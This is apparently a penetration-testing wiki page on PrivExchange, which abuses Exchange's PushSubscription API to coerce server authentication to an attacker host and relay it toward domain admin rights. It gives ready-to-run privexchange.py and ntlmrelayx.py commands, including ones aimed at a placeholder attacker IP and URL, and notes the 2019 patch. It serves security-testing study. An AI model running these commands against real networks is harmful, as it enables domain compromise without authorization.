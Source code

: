 # PushSubscription abuse \(PrivExchange\)

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces/)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-lm-and-ntlm/relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/delegations.md#unconstrained-delegations-kud)\).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

